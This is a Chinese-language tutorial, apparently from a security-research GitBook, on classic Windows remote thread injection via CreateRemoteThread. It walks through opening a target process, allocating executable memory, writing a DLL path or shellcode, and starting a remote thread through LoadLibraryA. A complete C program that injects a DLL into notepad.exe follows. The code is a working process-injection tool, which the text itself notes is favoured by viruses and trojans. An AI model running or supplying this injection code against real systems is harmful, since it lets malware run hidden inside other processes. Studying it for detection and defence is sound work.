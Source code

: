 ```yaml
---
description: 经典代码&dll注入
---
```


# CreateRemoteThread

## 远程线程注入

远程线程注入是指一个进程在另一个进程中创建线程的技术，通常用于注入dll或shellcode，两者执行方式会有一些简单的差异但是原理相同，这是一种简单且稳定的经典注入方式，被很多病毒木马所青睐，此外也存在更新式的注入方式。

## 注入流程

1. 打开被注入进程的句柄
2. 通过句柄向被注入进程申请可写可执行空间
3. 往申请的空间内写入必要数据（dllpath&shellcode）
4. 通过windows提供的api创建线程

![](../.gitbook/assets/remote.gif)

## 编程实现

### 0.使用函数原型

```text
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

```text
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

```text
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

```text
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

### 1.打开被注入进程的句柄

```text
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, <pid>);
```

### 2.通过句柄向被注入进程申请可写可执行空间

```text
LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### 3.往申请的空间内写入必要数据（dll&shellcode）

#### 3.1 shellcode

```text
char shellcode[]="XXXXXX";
WriteProcessMemory(hProcess, lpBaseAddress, shellcode, sizeof(shellcode), NULL);
```

#### 3.2 DLL注入

```text
char path[]="c:/test/test.dll";
WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
```

### 4.通过windows提供的api创建线程

#### 4.1 shellcode

```text
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0, 0, 0);
```

#### 4.2 DLL注入

我们都知道在进程载入DLL的时候会调用DLLMAIN函数,同时由于ASLR\(基址随机化\)的缘故，在操作系统启动时，DLL的加载地址不尽相同,但由于部分系统DLL要求在系统启动后必须固定，所以我们通过GetProcAddress函数获取操作系统加载DLL的函数。

也就是说,虽然进程不同但是部分系统dll在不同进程中的地址是相同的，那么我们可以通过获取本地进程的相关函数作为远程线程函数的启动参数,并把申请的空间指向加载DLL保存路径的字符串，就可以远程加载DLL。

* 不同进程的kernel32.dll

![](../.gitbook/assets/image%20%2877%29.png)

![](../.gitbook/assets/image%20%282%29.png)



```text
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
```

![](../.gitbook/assets/image%20%2832%29.png)

## 优化与使用

* 根据进程名查找PID

```text
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
```

* 完整代码

```text
#include <stdio.h>
#include <Windows.h>
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
char path[] = "C:\\Users\\Black Sheep\\source\\repos\\CreateRemoteThread\\x64\\Release\\TestDll.dll";

int main()
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetProcessIdByName((LPCTSTR)"notepad.exe"));
    
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
    return 0;
}

```

* github:[https://github.com/idiotc4t/CreateRemoteThread](https://github.com/idiotc4t/CreateRemoteThread)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/" %}



